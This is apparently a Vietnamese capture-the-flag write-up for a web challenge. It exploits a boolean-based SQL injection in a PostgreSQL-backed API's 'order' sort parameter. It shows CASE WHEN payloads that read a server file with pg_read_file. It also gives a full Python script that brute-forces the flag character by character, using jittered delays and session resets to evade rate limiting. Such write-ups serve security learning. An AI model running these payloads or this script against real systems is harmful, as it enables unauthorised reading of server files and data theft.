

# Write Up

## Web



Thấy nó gọi api như sau

```txt
?name=&breed=&min_age=&max_age=&page=1&order=id
```

Sau khi thử thì thấy trường order là anh em sẽ chèn SQLi được

---

## SQLi

Bài này sẽ là Condition SQLi, anh em sẽ chèn điều kiện và quan sát web trả về gì

Ở đây tôi sẽ luôn để là nếu True sẽ sort theo trường name và False thì sort theo trường breed

Kiểm tra xem có file nào là `flag.txt` không

```SQL
CASE%20WHEN((SELECT%20pg_read_file('flag.txt',0,1,true))%20IS%20NULL)%20THEN%20name%20ELSE%20breed%20END--%0a
```

Nhận thấy nó sort theo breed

Tức là có file `flag.txt`

Tiếp theo kiểm tra file `flag.txt` có bắt đầu bằng `ENO{` không

```SQL
CASE%20WHEN((SELECT%20left(pg_read_file('flag.txt',0,8192,true),4))='ENO%7B')%20THEN%20name%20ELSE%20breed%20END--%0a
```

Nhận thấy nó sort theo name tiếp, tức là điều kiện đã đúng

Vậy thì bây giờ chúng ta sẽ đơn giản là dùng hàm `substring()` để kiểm tra từng ký tự một trong flag là xong

---

## Script

```python
import requests, re, urllib.parse, time, random, sys
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry

BASE = "http://52.59.124.14:5020/"
FILE = "flag.txt"
TIMEOUT = 10

# ---- session with retries, no keep-alive ----
def new_session():
    s = requests.Session()
    retry = Retry(
        total=6,
        backoff_factor=0.4,                 # 0.4, 0.8, 1.2, ...
        status_forcelist=[429, 500, 502, 503, 504],
        allowed_methods=frozenset(["GET"]),
        raise_on_status=False,
    )
    adapter = HTTPAdapter(max_retries=retry, pool_connections=10, pool_maxsize=10)
    s.mount("http://", adapter)
    s.headers.update({
        "User-Agent": "Mozilla/5.0",
        "Accept-Language": "en-US,en;q=0.9",
        "Connection": "close",              # force close each request
    })
    return s

s = new_session()

def get_names(order_expr):
    # sleep jitter để né rate limit
    time.sleep(0.18 + random.random()*0.15)
    url = (BASE + "?name=&breed=&min_age=&max_age=&page=1&order=" +
           urllib.parse.quote(order_expr + "--\n"))
    # nhiều lớp retry thủ công thêm (phòng cả reset by peer)
    for attempt in range(5):
        try:
            r = s.get(url, timeout=TIMEOUT)
            r.raise_for_status()
            # parse danh sách tên
            names = re.findall(r'<div class="dog-title">([^<]+) <span class="age">', r.text)
            if names: 
                return names
            # Không thấy tên? có thể HTML khác -> return list rỗng vẫn ok
            return names
        except requests.RequestException:
            # tạo session mới rồi thử lại
            globals()['s'] = new_session()
            time.sleep(0.4*(attempt+1) + random.random()*0.2)
    # nếu vẫn fail, ném lỗi
    raise

# --- baseline TRUE/FALSE ---
BL_NAME  = get_names("name")
BL_BREED = get_names("breed")
print("baseline:", BL_NAME[:2], "|", BL_BREED[:2])

def is_true(case_when_expr):
    names = get_names(case_when_expr)
    # so sánh tên đầu để phân biệt
    return bool(names) and bool(BL_NAME) and names[0] == BL_NAME[0]

# Xác nhận độ dài '}' = 38 (optional)
check_end = ("CASE WHEN ((SELECT strpos(trim(pg_read_file('%s',0,8192,true)),'}'))=38) "
             "THEN name ELSE breed END") % FILE
print("Brace at 38?", "YES" if is_true(check_end) else "NO/unknown")

# ---- Resume cấu hình ----
START_POS = 15                # bạn đã brute tới 14, bắt đầu 15
KNOWN_PREFIX = "ENO{CuT3_D0GG0"   # để log đẹp, không bắt buộc

flag = list(KNOWN_PREFIX) if START_POS > 1 else []
for pos in range(START_POS, 39):   # 1..38
    lo, hi = 32, 126               # printable ASCII
    while lo < hi:
        mid = (lo + hi + 1) // 2
        cond = (
            "CASE WHEN ("
            f"(SELECT ascii(substr(trim(pg_read_file('{FILE}',0,8192,true)),{pos},1)))>={mid}"
            ") THEN name ELSE breed END"
        )
        try:
            if is_true(cond):
                lo = mid
            else:
                hi = mid - 1
        except Exception as e:
            # thêm sleep dài khi gặp reset liên tục
            time.sleep(1.0 + random.random()*0.5)
            continue
    ch = chr(lo)
    flag.append(ch)
    print(f"[pos={pos:02d}] {ch}  |  {''.join(flag)}")
    # tạo session mới định kỳ để tránh socket cũ
    if pos % 5 == 0:
        s = new_session()
    if ch == "}":
        break

print("\nFLAG =>", "".join(flag))
```

---

## Flag

Flag: ENO{CuT3_D0GG0S_T0_F1nD_Ev3r1Wh3re_<3}